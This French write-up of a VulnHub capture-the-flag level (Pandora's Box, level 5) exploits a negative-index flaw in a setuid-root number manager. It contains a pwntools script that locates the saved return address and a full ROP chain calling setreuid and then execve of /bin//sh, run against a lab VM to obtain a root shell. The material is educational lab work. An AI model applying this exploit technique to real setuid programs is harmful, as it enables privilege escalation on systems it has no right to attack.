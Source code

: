 # Solution du CTF Pandora's Box de VulnHub (level 5)

On touche finalement (presque) à la fin du [CTF Pandora's Box de VulnHub](https://vulnhub.com/entry/pandoras-box-1,111/). Ce level 5 a beau nous donner un accès root il est pourtant le plus simple des exploitations de binaires du CTF.

Le programme qui a donc le bit setuid root permet de stocker des valeurs numériques dans un tableau :

```shellsession
$ ./level5
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> help
commands:
exit        : Close number manager
set         : Store a number
get         : View a number
> get
> id: 6
value: 0
> set
> id: 6
> value: 31337
Value stored
> get
> id: 6
value: 31337
> get
> id: 5000
The array only has 10 entry's, use id 0..9
> get
> id: -10
value: 0
> set
> id: -10
> value: 5
Value stored
> get
> id: -10
value: 5
```

## Pour l'exploitation, tapez -234

On voit rapidement que les valeurs négatives d'index sont acceptées aussi bien pour la méthode `get` que `set`.

On peut donc aller au délà du tableau dans la stack. Le code fait un simple test pour s'assurer que l'index est plus petit que 10 :

```nasm
0x0804867d      mov     dword [base], 0xa ; int base
0x08048685      mov     dword [endptr], 0 ; char **endptr
0x0804868d      mov     dword [esp], ebx ; const char *str
0x08048690      call    strtoul    ; sym.strtoul ; long strtoul(const char *str, char **endptr, int base)
0x08048695      cmp     eax, 9     ; 9
0x08048698      jle     0x8048748
; --- snip ---
0x08048748      and     eax, 0xff  ; 255
0x0804874d      mov     eax, dword [esp + eax*4 + 0x14]
0x08048751      mov     dword [endptr], str.value:__u ; 0x80ab8af ; const char *format
0x08048759      mov     dword [base], eax
0x0804875d      mov     eax, dword [stderr] ; obj._IO_stderr
                                   ; 0x80cac24
0x08048762      mov     dword [esp], eax ; FILE *stream
0x08048765      call    fprintf    ; sym.fprintf ; int fprintf(FILE *stream, const char *format, void *va_args)
```

J'ai écrit un code pour dialoguer avec le programme et demander un index de -1 jusqu'à -1000 jusqu'à ce que l'on croise l'adresse de retour :

```python
from pwn import *                                                                                                      
                                                                                                                       
p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       

for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        break

p.readuntil(b"> ")
p.sendline(b"exit")
p.close()
```

Le script trouve ainsi notre adresse de retour à l'index `-234` du tableau.

Pour tester l'exploitation je vais simplement réécrire l'adresse de retour par une adresse (`0x080a7e22`) pointant sur une instruction `0xCC` (sigtrap) :

```shellsession
$ gdb -q ./level5
Reading symbols from ./level5...

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.opensuse.org/ 
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./level5)
(gdb) get
Undefined command: "get".  Try "help".
(gdb) r
Starting program: /tmp/ctf/level5 
#########################
# Simple Number Manager #
#########################
This tool allows you to store and view upto 10 numbers
in a array.
Type exit to close or help for a command list
> get
> id: -234
value: 134513006
> set
> id: -234
> value: 134905378
Value stored
> exit
Goodbye

Program received signal SIGTRAP, Trace/breakpoint trap.
0x080a7e23 in uw_init_context_1 ()
```

Ca fonctionne. Le binaire a le bit NX dont on va utiliser la technique du ROP. L'adresse de retour sera écrasée par la première adresse de la ROP-chain (générée via ROPgadget puis customisée). Les autres valeurs sont passées à la suite sur les adresses dans le sens croissant.

## Hammer time

Comme j'ai fait mon code avec `pwntools` et que je ne peux pas l'exécuter directement avec ses dépendances sur la VM du CTF je reprend la méthode des précédents levels pour que le programme vulnérable écoute sur un port :

```bash
socat TCP4-listen:6666,reuseaddr,fork EXEC:./level5
```

Voci mon code d'exploitation :

```python
import struct
from pwn import *                                                                                                      

values = [
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0,
    0,
    0x080a8406,  # pop eax ; ret
    70,          # setreuid syscall
    0x08053f90,  # int 80; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e0,  # @ .data
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"/bin")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e4,  # @ .data + 4
    0x080a8406,  # pop eax ; ret
    struct.unpack("<I", b"//sh")[0],
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x08097caf,  # xor eax, eax ; ret
    0x080795a1,  # mov dword ptr [edx], eax ; ret
    0x08048492,  # pop ebx ; ret
    0x080ca7e0,  # @ .data
    0x0805383d,  # pop ecx ; pop ebx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080ca7e0,  # padding without overwrite ebx
    0x08053816,  # pop edx ; ret
    0x080ca7e8,  # @ .data + 8
    0x080a8406,  # pop eax ; ret
    11,
    0x08048d2d,  # int 0x80
]

# switch lines for local exploitation
# p = process('./level5', stdin=process.PTY, stdout=process.PTY)                                                       
p = remote("192.168.56.83", 6666)

saved_eip_offset = 0
for i in range(-1, -1000, -1):
    p.readuntil(b"> ")
    p.sendline(b"get")
    p.readuntil(b"> id: ")
    p.sendline(str(i).encode())
    value = int(p.readline().split()[1])
    if value == 0x0804816e:
        print(f"Found return value at index {i}")
        saved_eip_offset = i
        break

for i, value in enumerate(values):
    p.readuntil(b"> ")
    p.sendline(b"set")
    p.readuntil(b"> id: ")
    p.sendline(str(saved_eip_offset + i).encode())
    p.readuntil(b"> value: ")
    p.sendline(str(value).encode())

p.readuntil(b"> ")
p.sendline(b"exit")
p.interactive()
p.close()

```

Pwn3d !

```shellsession
$ python exploit_lvl5.py 
[+] Opening connection to 192.168.56.83 on port 6666: Done
Found return value at index -234
[*] Switching to interactive mode
Goodbye
$ id
uid=0(root) gid=1004(level4) groups=0(root),1004(level4)
$ cd /root
$ ls -al
total 32
drwx------  3 root root 4096 Jan  4  2015 .
drwxr-xr-x 22 root root 4096 Jan  3  2015 ..
-rw-------  1 root root  275 Jan  4  2015 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jan  4  2015 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-------  1 root root 1491 Jan  4  2015 .viminfo
-rw-r--r--  1 root root 1314 Jan  4  2015 fl4gz0r.tXt
```

Le flag est en fait un dernier exercice à voir plus tard ;-)

*Publié le 27 décembre 2022*
